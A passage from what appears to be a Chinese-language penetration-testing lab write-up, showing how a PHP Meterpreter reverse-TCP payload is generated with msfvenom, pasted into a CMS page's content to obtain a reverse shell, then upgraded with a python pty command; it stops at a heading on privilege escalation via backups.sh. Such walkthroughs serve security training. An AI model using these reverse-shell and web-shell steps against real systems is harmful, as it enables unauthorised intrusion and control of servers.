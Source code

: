   

启用之后在`Content` 中添加我们的脚本木马，添加脚本木马前先用 `MSF` 生成一个 `PHP` 的木马：

```text
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.128 LPORT=7777 -f raw
```

  

![](https://pic4.zhimg.com/80/v2-d4fa652471c6dbe3a0ed03a530feaa13_720w.webp)

  

紧接着打开 `MSF` 设置参数开启监听：

  

![](https://pic3.zhimg.com/80/v2-9d204d39b894f6bcb4ba31631309185e_720w.webp)

  

最后添加我们的脚本代码到页面中：

  

![](https://pic1.zhimg.com/80/v2-13171a3e686c47dc9f7db83f534e544c_720w.webp)

  

  

![](https://pic2.zhimg.com/80/v2-93072f85a3c3bb21d7ad898ba84c33a1_720w.webp)

  

（PS：如果失败了那么先设置为 `PHP code`，再把脚本代码放进去保存就可以了）

设置好之后成功反弹得到一枚 `shell`：

  

![](https://pic3.zhimg.com/80/v2-a27bf57ddf837b65b63d9a0d29d6904a_720w.webp)

  

得到`shell`之后用`MSF`自带的模块查看有没有可以提权的模块，但是发现没有可利用提权的地方：

  

![](https://pic1.zhimg.com/80/v2-b54b7641de91321890e10dcb9dbdb5e8_720w.webp)

  

先让它切换到 `shell` 环境把：

```text
shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

  

![](https://pic3.zhimg.com/80/v2-8d101bf60f8ddb94426e6070d348f6e6_720w.webp)

  

## 利用backups.sh文件提权
